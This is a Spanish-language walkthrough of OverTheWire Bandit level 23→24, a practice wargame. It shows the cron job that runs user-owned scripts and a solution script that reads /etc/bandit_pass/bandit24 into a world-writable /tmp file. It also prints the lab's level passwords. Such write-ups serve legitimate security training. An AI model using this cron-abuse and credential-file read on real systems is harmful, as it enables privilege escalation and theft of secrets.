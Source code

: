 ## Level 23 → Level 24

## Objetivo
Un programa se ejecuta automáticamente a intervalos regulares desde **cron** , el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** este nivel requiere que cree su propio primer script de shell. ¡Este es un paso muy grande y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** tenga en cuenta que su script de shell se elimina una vez que se ejecuta, por lo que es posible que desee conservar una copia...
## Datos de acceso al nivel
- bandit23 
- QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion
```
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat
cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i
fi
rm -f ./$i
fi
done
bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Mar 17 04:41 .
drwxrwx-wt 1957 root root 81920 Mar 17 04:41 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Mar 17 04:41 password
-rwxrwxr-x 1 bandit23 bandit23 49 Mar 17 04:41 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Mar 17 04:43 .
drwxrwx-wt 1957 root root 81920 Mar 17 04:43 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Mar 17 04:43 password
-rwxrwxr-x 1 bandit23 bandit23 49 Mar 17 04:40 script.sh
bandit23@bandit:/tmp/kd$ date
Fri Mar 17 04:41:12 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 96
drwxrwxr-x 2 bandit23 bandit23 4096 Mar 17 04:41 .
drwxrwx-wt 1957 root root 81920 Mar 17 04:43 ..
-rw-rw-rw- 1 bandit23 bandit23 33 Mar 17 04:44 password
-rwxrwxr-x 1 bandit23 bandit23 49 Mar 17 04:40 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$
```

## Notas adicionales

## Referencias
- https://rundata.wordpress.com/2013/03/21/overthewire-bandit-wargame-solutions-1-24/
- https://www.youtube.com/watch?v=lPtL7kqLyDA